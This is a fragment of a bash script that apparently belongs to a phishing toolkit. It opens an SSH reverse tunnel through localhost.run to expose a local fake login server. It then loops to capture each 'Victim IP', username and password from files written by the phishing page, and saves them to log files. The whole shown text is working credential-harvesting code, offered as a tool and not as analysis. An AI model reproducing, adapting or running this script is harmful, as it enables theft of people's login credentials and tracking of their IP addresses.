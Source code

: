 \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Press Ctrl+C to View Login Creds \e[0m\n" sleep 1 printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m" ssh -R 80:localhost:4545 ssh.localhost.run printf "\e[0m\n" printf "\n" printf " \e[1;31m[\e[0m\e[1;77m::\e[0m\e[1;31m]\e[0m\e[1;93m Login Info \e[1;31m[\e[0m\e[1;77m::\e[0m\e[1;31m]\e[0m\n" printf "\e[0m\n" while [ true ]; do if [[ -e ".htr/www/ip.txt" ]]; then printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Victim IP Found !\e[0m\n" grab_ip rm -rf .htr/www/ip.txt fi sleep 0.75 if [[ -e ".htr/www/usernames.txt" ]]; then account=$(grep -o 'Username:.*' .htr/www/usernames.txt | cut -d " " -f2) IFS=$'\n' password=$(grep -o 'Pass:.*' .htr/www/usernames.txt | cut -d ":" -f2) printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Account:\e[0m\e[1;96m %s\n\e[0m" $account printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Password:\e[0m\e[1;96m %s\n\e[0m" $password cat .htr/www/usernames.txt >> logs/$website.log printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Saved:\e[0m\e[1;93m logs/%s.log\e[0m\n" $website printf "\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Press Ctrl + C to Exit\e[0m\n" rm -rf .htr/www/usernames.txt fi sleep 0.75 done } grab_ip() { ip=$(grep -a 'IP:' .htr/www/ip.txt | cut -d " " -f2 | tr -d '\r') IFS=$'\n' printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Victim IP:\e[0m\e[1;96m %s\e[0m\n" $ip printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Saved:\e[0m\e[1;93m ip.txt\e[0m\n" $server printf "\n" cat .htr/www/ip.txt >> ip.txt } grab_creds() { account=$(grep -o 'Username:.*' .htr/www/usernames.txt | cut -d " " -f2) IFS=$'\n' password=$(grep -o 'Pass:.*' .htr/www/usernames.txt | cut -d ":" -f2) printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Account:\e[0m\e[1;96m %s\n\e[0m" $account printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Password:\e[0m\e[1;96m %s\n\e[0m" $password cat .htr/www/usernames.txt >> logs/$website.log printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Saved:\e[0m\e[1;93m logs/%s.log\e[0m\n" $website printf "\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Waiting for Next Login Info,\e[0m\e[1;96m Ctrl + C to exit.\e[0m\n" } datafound() { printf "\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Waiting for Login Info,\e[0m\e[1;96m Ctrl + C to exit.\e[0m\n" printf "\n" while [ true ]; do if [[ -e ".htr/www/ip.txt" ]]; then printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Victim IP Found !\e[0m\n" grab_ip rm -rf .htr/www/ip.txt fi sleep 0.75 if [[ -e ".htr/www/usernames.txt" ]]; then printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Login info Found !!\e[0m\n" grab_creds rm -rf .htr/www/usernames.txt fi sleep 0.75 done } banner reqs menu
